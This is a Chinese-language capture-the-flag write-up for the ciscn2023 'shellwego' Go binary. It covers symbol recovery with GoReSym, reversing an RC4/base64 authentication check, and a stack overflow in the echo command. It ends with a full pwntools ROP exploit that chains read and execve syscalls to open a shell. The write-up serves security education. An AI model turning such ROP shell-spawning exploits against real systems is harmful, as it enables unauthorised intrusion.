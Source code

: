 ```yaml
---
title: ciscn2023 shellwego writeup
date: 2023-05-31 11:25:36
tags:
- CTF
- pwn
- stack
- ciscn2023
categories:
- pwn-wp
---
```


# ciscn2023 shellwego writeup

这题是go语言程序 感觉逆向的占比大于pwn...
## 0x1 checksec 查看安全保护

![img](checksec.png)  
没开PIE， 而且可以发现程序是静态链接的

## 0x2 ida 分析
![img](0x2.png)

无符号表，难以分析，尝试利用

## 0x3 恢复符号表
### 0x3-1 查看程序go版本
两种方式： 
1. Shift+F12打开字符串窗口，搜索`go` 可以看到版本信息
2. 在命令行执行 `strings shellwego | grep "go"`

可以看到版本为go1.20.4
![img](0x3-1.png)

### 0x3-2 尝试利用IDA signature库进行比对恢复
> IDA 可以根据选定signature库中的函数签名特征与当前程序各函数进行匹配  从而恢复函数名
1. Shift+F5打开Signatures窗口
2. 右键点击 `Apply new signature...`
3. 点击 `Search` 搜索 `go`
4. 发现只有一个 `go_std` 仅可用于 `go1.10-1.16`， 不可行
![img](0x3-2.png)

### 0x3-3 搜索 `ida go1.20 signature`
发现工具 [GoReSym](https://www.google.com.hk/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjk55Gv_qD_AhWgcGwGHSR4BicQFnoECBQQAQ&url=https%3A%2F%2Fgithub.com%2Fmandiant%2FGoReSym&usg=AOvVaw1kELKyeJ37LXczOk3Yd8pk) （也可以试试其他符号恢复方法）

使用：
1. 下载程序 [Release](https://github.com/mandiant/GoReSym/releases/)
2. 执行并生成结果json文件  `GoReSym.exe -t -d -p /path/to/shellwego > output.json`
3. 下载IDA脚本文件 [goresym_rename.py](https://github.com/mandiant/GoReSym/blob/master/IDAPython/goresym_rename.py)
4. IDA 点击 File -> Script File 选择 `goresym_rename.py` 再选择刚才输出的 `output.json` IDA就能自动恢复函数名了

![img](0x3-3.png)

前后对比可以看到恢复效果非常理想

![img](0x3-32.png)

## 0x4 程序分析
### 0x4-1 进入main_main函数，可以看到程序先输出 `ciscnshell$`，再获取输入，然后调用函数 `main_unk_func0b05`
![img](0x4-1.png)

### 0x4-2 进入`main_unk_func0b05`函数
- 发现很多cmp和类似字符串16进制的dword
点击16进制数再按R键，显示字符串  但由于数据是以dword解释的，所以字符串颠倒  
- 尝试执行程序发现输出`Cert Is A Must` 所以先来看cert命令  按照程序流程可见应该还要输入 `nAcDsMic`+`N` 也就是 `nAcDsMicN`  
- 但是如果只输入 `cert nAcDsMicN` 会出现提示 `Missing parameter`， 明显是要三个参数  
- 再看函数流图发现之后去到函数`main_unk_func0b01`
![img](0x4-2.png)

### 0x4-3 进入`main_unk_func0b01`函数
同样方法转换字符串，可以发现大致流程：
1. key="F1nallB1B1rd3K3y"
2. rc4 加密
3. base64 加密
4. 与字符串"JLIX8pbSvYZu/WaG"比较，若相同则认证成功
![img](0x4-3.png)

### 0x4-4 cert me in
很明了了，先base64解密成byte数组， 再用已知key通过rc4解密  最后得到 `S33UAga1n@#!`  
执行程序输入 `cert nAcDsMicN S33UAga1n@#!`， 成功通过验证

### 0x4-5 回到`main_unk_func0b05`函数
尝试执行函数中提到的不同命令，可以`cat flag`但是是假的flag
发现仅echo命令存在可能漏洞（main_unk_func0b04中）

### 0x4-6 进入`main_unk_func0b04`函数
![img](0x4-4.png)
结合动态调试发现：
1. echo后面的单个连续单词长度不能超过0x200
2. 单词会去掉空格拼接起来复制到栈上， 存在栈溢出漏洞
3. 遇到`+`不复制

## 0x5 exploit
直接栈溢出到ret_addr会出现Segmentation Fault，调试分析问题出现在指令`movzx edx, byte ptr [rbx+rax]`  
![img](0x4-5.png)

原因rbx从栈上取了一个地址值，而我们改写了栈使其不再是有效地址值，所以解析的时候会报段错误
绕开方式： 刚好遇到 `+` 不会复制，也就保留原来的值

```python
from pwn import *
context.log_level='debug'

filename = './shellwego'
proc = process(filename)
belf = ELF(filename)

gscript = '''
    b * 0x0000000004C1882
    c
'''
# gdb.attach(proc, gdbscript=gscript)

# gadget 查看pop_ret对，用于构造pop链
poprdi_ret = 0x444fec
poprsi_ret = 0x41e818
poprdx_ret = 0x49e11d
poprax_ret = 0x40d9e6
syscall = 0x40328c

proc.sendlineafter(b'ciscnshell$ ', b'cert nAcDsMicN S33UAga1n@#!')

#每个单词长度不超过0x200
#payload具体溢出长度可通过动态调试观察得到
payload = b'echo '+b'h'*0x100+b' '+b'h'*0x103

# 避开影响地址
payload += b'+' * 8

# 调用syscall 0 即read 到0x59FE70 上
# 具体syscall调用规则查看：https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md
payload += p64(0xdeadbeefdeadbeef) * 3
payload += p64(poprdi_ret) + p64(0)
payload += p64(poprax_ret) + p64(0)
payload += p64(poprsi_ret) + p64(0x59FE70)
payload += p64(poprdx_ret) + p64(20)
payload += p64(syscall)

#syscall 59 即execve
payload += p64(poprax_ret) + p64(59)
payload += p64(poprdi_ret) + p64(0x59FE70)
payload += p64(poprsi_ret) + p64(0)
payload += p64(poprdx_ret) + p64(0)
payload += p64(syscall)

proc.sendlineafter(b'# ', payload)
proc.send(b"/bin/sh\x00")
proc.interactive()
pause()

```

> 个人博客 https://antel0p3.github.io/